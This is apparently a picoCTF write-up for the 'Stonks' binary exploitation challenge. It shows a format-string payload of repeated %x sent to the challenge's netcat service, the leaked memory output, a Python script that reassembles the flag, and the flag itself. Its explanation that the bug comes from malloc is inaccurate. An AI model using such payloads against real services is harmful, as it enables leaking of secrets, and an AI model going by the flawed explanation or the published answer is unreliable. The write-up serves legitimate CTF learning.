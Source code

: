 # Stonks

## Information

**Point Value**: 20 points  
**Category**: Binary Exploitation  
**Author**: MADSTACKS

## Description

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](./files/vuln.c) nc mercury.picoctf.net 27912

## Hints

1. Okay, maybe I'd believe you if you find my API key.

## Solution

First things first, understand how the vuln.c code works, this will require some C knowledge.  
There you can find that the second input is using malloc(), knowing this, we can overload the memory and print out some things that are in cache.
Knowing this, access the netcat provided and use the first option. After that just spam a bunch of "%x"

```sh
$ %x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
```

The program will print out some of the information stored, then it's pretty straightforward, get the output, that should look something like this:

```
ö;°H?ØÿÿÿñôÜpõö9_c°ocip{FTC0l_I4_t5m_ll0m_y_y3n2fc10a10ÿª}÷üjø÷ù@#=4÷âé÷ù À÷øµÀ÷ø°ÿªî÷á÷øµÀHì¯ú®é
```

Then take out the flag and rearrange it, I did it with Python, just for the sake of it.

```py
str = "ocip{FTC0l_I4_t5m_ll0m_y_y3n2fc10a10ÿª}÷üjø÷ù"
str = str[0:len(str)-len(str)%4]
result = ""
chunks = [str[i:i+4] for i in range(0, len(str), 4)]

for chunk in chunks:
    result += chunk[::-1]

print(result)
```

## Flag

picoCTF{I_l05t_4ll_my_m0n3y_1cf201a0}
